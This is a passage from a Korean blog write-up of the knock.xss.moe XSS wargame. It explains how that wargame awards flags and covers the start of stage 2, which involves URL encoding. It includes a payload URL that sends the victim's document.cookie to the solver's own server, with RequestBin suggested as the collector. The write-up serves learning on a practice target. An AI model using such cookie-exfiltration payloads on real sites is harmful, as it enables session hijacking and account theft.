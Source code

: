 수천번의 노크라고 진짜 xss 스크립트 수천번 때리게 되는 wargame 사이트입니다! 하하



------



### 2-1. prolog



knock.xss.moe는 xss-game이랑 플래그 얻는 방식이 달라서 제가 시간을 쪼오금 투자했었는데, 님들은 투자하지 마시라고 섬세한 설명으로 모시겠습니다.

xss game는 alert 창을 띄우는 방식이었다면, knock.xss.moe는 서버의 주소를 URL 창에 넣어서 보내서 **내 서버에서 flag를 확인하는 방식**입니다.


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_21.png)

```
http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?location=%22"여기에 내 서버 주소를 넣으면 됩니다!!"/?%22%2Bdocument.cookie
```



근데 여러분 서버를 가지고 있지 않거나 세팅하기 귀찮은 분도 계실거라고 생각해서 좋은 사이트 하나 알려드릴게요.

> [Requestbin](http://requestbin.fullcontact.com/)


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_02.png)

위의 `Create a RequestBin`을 클릭하면 생성이 되는데 밑의 네모 칸이 주소입니다.
그 URL을 가지고 서버 주소 자리에 넣으면 아래와 같이 `flag`를 확인할 수 있죠!


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_03.png)

문제 푸는 방법을 알았어요! 그럼 이제 문제를 풀어보죠!!



------



### 2-2. Stage 2 - url encoding



2번에서는 제가 URL 인코딩을 알게 된 문제입니다!

2번 문제는 아래와 같이 get 방식으로 구현이 되어있어 q 뒤의 내용이 출력되는 기능을 가지고 있는 웹페이지입니다.


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_04.png)

그래서 q 뒤에 document.cookie가 포함된 스크립트를 보내보았습니다!


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_05.png)

하지만 `failed csrf check!`라고 뜨면서 실패가 뜬다…ㅠ
